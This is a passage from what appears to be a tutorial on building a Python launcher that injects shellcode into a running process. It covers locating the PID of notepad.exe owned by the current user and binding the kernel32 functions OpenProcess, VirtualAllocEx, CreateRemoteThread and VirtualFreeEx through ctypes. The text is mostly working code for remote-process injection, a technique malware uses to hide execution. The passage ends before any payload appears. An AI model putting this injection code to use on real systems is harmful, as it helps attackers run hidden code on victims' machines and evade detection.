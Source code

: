 Import methods to list running processes and retrieve username running the Launcher.

```
from psutil import process_iter
from os import getlogin
```

Grab the username, define a process name to inject into, and create a variable to hold the PID. The name of the process to inject into will be defined here. In my case, I'll be injecting into notepad.exe.

```
my_username = getlogin()
proc_to_find = 'notepad.exe'
my_pid = None
```

Iterate over the running processes, and grab the PID of a process running under the identified username (user running the Launcher) with the defined process name.

```
for proc in process_iter():
    try:
        pinfo = proc.as_dict(attrs=['pid', 'name', 'username'])
    except psutil.NoSuchProcess:
        pass
    else:
        if pinfo['username']:
            ps_username = (pinfo['username']).split('\\')[1]
            pid = pinfo['pid']
            name = pinfo['name']

            if ps_username == my_username and name == proc_to_find:
                my_pid = pid
                print(f'{my_username}:{ps_username}:{pid}:{name}')

                break
```

At this point, I have a PID for a process that I can (most likely) inject shellcode into.

### Defining the kernel32 Functions

Like the previous shellcode execution method, I need to define the argtypes and restypes for the functions I will be calling. See earlier references for information on this.

```
CloseHandle = ctypes.windll.kernel32.CloseHandle
CloseHandle.argtypes = [ctypes.wintypes.HANDLE]
CloseHandle.restype = ctypes.wintypes.BOOL

CreateRemoteThread = ctypes.windll.kernel32.CreateRemoteThread
CreateRemoteThread.argtypes = [ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, ctypes.c_size_t, ctypes.wintypes.LPVOID, ctypes.wintypes.LPVOID, ctypes.wintypes.DWORD, ctypes.wintypes.LPVOID]
CreateRemoteThread.restype = ctypes.wintypes.HANDLE

OpenProcess = ctypes.windll.kernel32.OpenProcess
OpenProcess.argtypes = [ctypes.wintypes.DWORD, ctypes.wintypes.BOOL, ctypes.wintypes.DWORD]
OpenProcess.restype = ctypes.wintypes.HANDLE

VirtualAllocEx = ctypes.windll.kernel32.VirtualAllocEx
VirtualAllocEx.argtypes = [ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, ctypes.c_size_t, ctypes.wintypes.DWORD, ctypes.wintypes.DWORD]
VirtualAllocEx.restype = ctypes.wintypes.LPVOID

VirtualFreeEx = ctypes.windll.kernel32.VirtualFreeEx
VirtualFreeEx.argtypes = [ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, ctypes.c_size_t, ctypes.wintypes.DWORD]
```